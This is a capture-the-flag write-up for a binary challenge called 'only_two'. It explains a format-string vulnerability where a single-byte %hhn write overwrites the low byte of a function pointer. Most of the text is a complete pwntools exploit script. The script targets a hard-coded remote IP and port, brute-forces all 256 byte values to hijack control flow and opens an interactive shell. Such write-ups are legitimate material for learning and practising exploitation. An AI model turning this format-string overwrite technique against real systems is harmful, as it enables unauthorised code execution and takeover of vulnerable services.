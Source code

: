 # Writeup - only_two

## 1. Challenge Overview

The remote binary provides a simple menu:

1.  **leak** -- prints the addresses of `onexit_hook` and `main`.
2.  **write** -- lets the player input a format string, which is passed
    to `printf(fmt, &onexit_hook)`.
3.  **go** -- calls `onexit_hook`.
4.  **quit**.

Key behavior: - The first time you call **go**, the program sets
`onexit_hook = safe`. - After that, you can use **write** with a format
string to overwrite bytes at the address of `onexit_hook`. - The next
**go** will actually call whatever `onexit_hook` points to.

Goal: redirect `onexit_hook` so that instead of calling `safe()`, it
executes a shell (e.g. `system("/bin/sh")` or a suitable gadget).

------------------------------------------------------------------------

## 2. Exploitation Idea

-   The only practical primitive here is `%hhn`, which writes **one
    byte**.
-   Writing a full address is impossible --- but we only need to modify
    the **least significant byte (LSB)** of `onexit_hook`.
-   If the LSB happens to align with a gadget or `system()`, we can
    hijack control flow.
-   Therefore, the approach is to brute-force all 256 possible LSB
    values until one of them gives a working shell.

------------------------------------------------------------------------

## 3. Exploit Script

Here's the Python exploit using pwntools:

``` python
#!/usr/bin/env python3
from pwn import *

HOST = "8.216.34.114"
PORT = 18882
context.log_level = "info"

def run_try(lsb):
    r = remote(HOST, PORT)

    # 1) go() -> init onexit_hook = safe
    r.recvuntil(b"> ")
    r.sendline(b"3")
    r.recvuntil(b"bye")

    # 2) leak() -> debug info
    r.recvuntil(b"> ")
    r.sendline(b"1")
    leak_line = r.recvlineS().strip()
    log.debug(leak_line)

    # 3) write() -> overwrite LSB of onexit_hook
    r.recvuntil(b"> ")
    r.sendline(b"2")
    fmt = b"A" * lsb + b"%1$hhn"
    r.send(fmt + b"\n")

    # 4) go() -> trigger onexit_hook
    r.recvuntil(b"> ")
    r.sendline(b"3")

    # 5) check if we got a shell
    try:
        r.sendline(b"echo PWNED")
        out = r.recvline(timeout=0.5)
        if out and b"PWNED" in out:
            log.success(f"Got shell with LSB={lsb:#x}")
            r.interactive()
            return True
    except EOFError:
        pass

    r.close()
    return False

def main():
    for lsb in range(256):
        log.info(f"Trying LSB={lsb:#x}")
        if run_try(lsb):
            return
    log.failure("No valid LSB found!")

if __name__ == "__main__":
    main()
```
